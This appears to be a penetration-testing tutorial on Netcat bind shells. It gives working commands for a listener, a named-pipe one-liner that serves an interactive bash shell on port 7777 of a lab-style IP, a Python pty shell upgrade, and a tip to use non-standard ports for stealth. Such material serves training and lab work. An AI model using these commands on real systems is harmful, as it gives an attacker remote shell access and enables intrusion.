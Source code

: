 
A **bind shell** is when the **target system** opens a port and **listens for connections** from your attack machine.  
Once you connect, you gain remote interaction with the target's shell.

- **Client = Attacker**
    
- **Server = Target**
    

---

## **2. Basic Bind Shell with Netcat**

### **Step 1: Start Listener on the Target**

On the **target machine**:

```bash
nc -lvnp 7777
```

Output:

```
Listening on [0.0.0.0] port 7777
```

This makes the **target** listen for connections on port **7777**.

---

### **Step 2: Connect from the Attacker**

On the **attacker machine**:

```bash
nc -nv 10.129.41.200 7777
```

Output:

```
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

At this point, you have a basic connection — but **not a functional shell**, just a raw pipe for input/output.

---

## **3. Upgrading to a Real Bind Shell**

To serve an interactive bash shell, use **named pipes (FIFO)** on the **target**.

### **Step 3: Setup Bind Bash Shell (Target)**

```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

**Explanation:**

- `mkfifo /tmp/f` → Creates a named pipe for input/output.
    
- `bash -i` → Starts an interactive shell.
    
- Pipes input and output through **Netcat**.
    

---

### **Step 4: Connect to the Shell (Attacker)**

```bash
nc -nv 10.129.41.200 7777
```

Once connected, you now have a real interactive shell:

```
target@server:~$ whoami
target
```

---

## **Key Notes**

- Bind shells are **target-initiated**, so **firewalls must allow inbound connections** to the listening port.
    
- Use **non-standard ports** (e.g., 8080, 9001) for stealth.
    
- Always upgrade to a fully interactive shell if possible, using tools like:
    
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

